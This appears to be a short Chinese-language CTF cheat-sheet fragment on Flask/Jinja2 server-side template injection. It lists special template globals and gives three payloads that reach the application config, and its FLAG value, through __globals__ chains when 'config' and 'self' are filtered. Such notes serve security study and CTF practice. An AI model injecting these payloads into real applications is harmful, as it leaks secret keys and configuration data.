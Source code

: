 ### 特殊变量
- url_for, g,request,namespace,lipsum,range,session,dict,get_flashed_messages,cycler,joiner,config等，当config、self被过滤了，但仍需要获取配置信息时，就需要从它的上部全局变量(访问配置current_app等)

```python
{{url_for.__globals__['current_app'].config.FLAG}}

{{get_flashed_messages.__globals__['current_app'].config.FLAG}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}